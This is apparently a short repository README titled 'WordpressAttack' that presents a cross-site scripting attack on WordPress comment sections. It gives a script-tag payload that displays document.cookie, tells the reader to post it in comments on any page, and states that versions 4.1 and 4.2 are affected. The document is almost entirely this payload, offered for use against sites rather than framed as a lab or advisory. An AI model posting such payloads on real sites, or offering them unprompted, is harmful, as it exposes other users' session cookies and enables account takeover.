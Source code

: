 # WordpressAttack

Attack 1: XSS in Comment section
Run this script in the comments section on any page: <script>alert(document.cookie);</script>
Affects versions 4.1 and 4.2 at least
